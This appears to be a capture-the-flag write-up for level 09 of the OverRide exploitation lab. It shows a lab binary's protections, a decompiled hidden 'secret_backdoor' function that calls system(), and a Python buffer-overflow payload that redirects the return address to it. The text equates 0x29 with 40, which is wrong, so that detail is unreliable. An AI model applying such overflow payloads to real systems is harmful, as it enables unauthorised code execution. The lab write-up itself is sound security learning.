 # Level 09

Once logged in, you will see a binary

```
$ ssh localhost -p 4242 -l level09
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level09@localhost's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
level09@OverRide:~$ ls
level09
level09@OverRide:~$
```

by running the program, the prompt opens for asking a name, and message to send to `@Unix-Dude`

```
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: sucho
>: Welcome, sucho
>: Msg @Unix-Dude
>>: hi
>: Msg sent!
level09@OverRide:~$
```

By decompiling the binary, there are a function that never called, name `secret_backdoor`, which gets user input and stores into the buffer(local variable), and calles `system()` function with the buffer. also, the program uses `fgets()`, `printf()`, `strncpy()` throughout the program, so there may be a chance to exploit the program with buffer overflow.


XXXXXXXXXXXXXXXXXXXXXXX
decompilation gives the set_username function will take `0x29 = 40` bytes into the buffer.
XXXXXXXXXXXXXXXXXXXXXXX

XXXXXXXXXXXXXXXXXXXXXXXXXXXX
We want to overwrite the rip (64 bits version of eip) to the address of the function `secret_backdoor`
XXXXXXXXXXXXXXXXXXXXXXXXXXXX


```
python -c 'import struct; print "A"*40 + "\x90" + "B"*200 + struct.pack("L", 0x000055555555488c)' # I stands for unsigned int, L stands for unsigned long
````

